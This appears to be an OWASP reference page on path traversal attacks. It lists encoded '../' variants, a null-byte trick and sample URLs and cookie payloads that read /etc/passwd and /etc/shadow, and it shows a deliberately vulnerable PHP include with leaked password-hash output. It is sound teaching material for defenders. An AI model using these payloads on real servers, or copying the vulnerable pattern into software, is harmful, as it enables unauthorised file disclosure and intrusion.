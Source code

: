 Last revision (mm/dd/yy): **//**



## Overview

A path traversal attack (also known as directory traversal) aims to
access files and directories that are stored outside the web root
folder. By manipulating variables that reference files with
“dot-dot-slash (../)” sequences and its variations or by using
absolute file paths, it may be possible to access arbitrary files and
directories stored on file system including application source code or
configuration and critical system files. It should be noted that access
to files is limited by system operational access control (such as in the
case of locked or in-use files on the Microsoft Windows operating
system).

This attack is also known as “dot-dot-slash”, “directory traversal”,
“directory climbing” and “backtracking”.

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide](:Category:OWASP_Guide_Project "wikilink") article
on how to [Avoid Path Traversal](File_System#Path_traversal "wikilink")
Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing
Guide](:Category:OWASP_Testing_Project "wikilink") article on how to
[Test for Path
Traversal](Testing_for_Path_Traversal_\(OWASP-AZ-001\) "wikilink")
Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

`%2e%2e%2f represents ../`
`%2e%2e/ represents ../`
`..%2f represents ../ `
`%2e%2e%5c represents ..\`
`%2e%2e\ represents ..\ `
`..%5c represents ..\ `
`%252e%252e%255c represents ..\ `
`..%255c represents ..\ and so on. `

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent
encoded values from forms and URLs.

`..%c0%af represents ../ `
`..%c1%9c represents ..\ `

**OS specific**

UNIX

`Root directory:  “ / “ `
`Directory separator: “ / “`

WINDOWS

`Root directory: “  `<partition letter>` : \ “`
`Directory separator: “ / “ or “ \ ” `
`Note that windows allows filenames to be followed by extra . \ / characters.`

In many operating systems, null bytes %00 can be injected to terminate
the filename. For example, sending a parameter like:

`?file=secret.doc%00.pdf`

will result in the Java application seeing a string that ends with
".pdf" and the operating system will see a file that ends in ".doc".
Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources
in use.

` http://some_site.com.br/get-files.jsp?file=report.pdf  `
` http://some_site.com.br/get-page.php?home=aaa.html  `
` http://some_site.com.br/some-page.asp?page=index.html  `

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

`  http://some_site.com.br/get-files?file=../../../../some dir/some file `

`  http://some_site.com.br/../../../../some dir/some file `

The following URLs show examples of \*NIX password file exploitation.

`http://some_site.com.br/../../../../etc/shadow  `
`http://some_site.com.br/get-files?file=/etc/passwd `

Note: In a windows system an attacker can navigate only in a partition
that locates web root while in the Linux he can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

` http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php   `

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

` http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi   `

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <nowiki>
    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
       $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>
    </nowiki>

An attack against this system could be to send the following HTTP
request:

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
    Content-Type: text/html
    Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
    daemon:*:1:1::/tmp:
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
[/etc/passwd](passwd "wikilink").

UNIX etc/passwd is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

`http://testsite.com/get.php?f=list`
`http://testsite.com/get.cgi?f=2`
`http://testsite.com/get.asp?f=test`

An attacker can execute this attack like this:

`http://testsite.com/get.php?f=/var/www/html/get.php`
`http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc`
`http://testsite.com/get.asp?f=/etc/passwd`

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Resource Injection](Resource_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://cwe.mitre.org/data/definitions/22.html>
  - <http://www.webappsec.org/projects/threat/classes/path_traversal.shtml>

\[\[Category:FIXME|link not working

  - <http://cve.mitre.org/docs/plover/SECTION.9.6.html#PATH.TRAV>

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[this link doesn't exist. Do you want to change this to a different link
or add this category?](Category:FIXME "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Path Traversal
Attack](Category:Path_Traversal_Attack "wikilink") [Category:Resource
Manipulation](Category:Resource_Manipulation "wikilink")
[Category:Attack](Category:Attack "wikilink")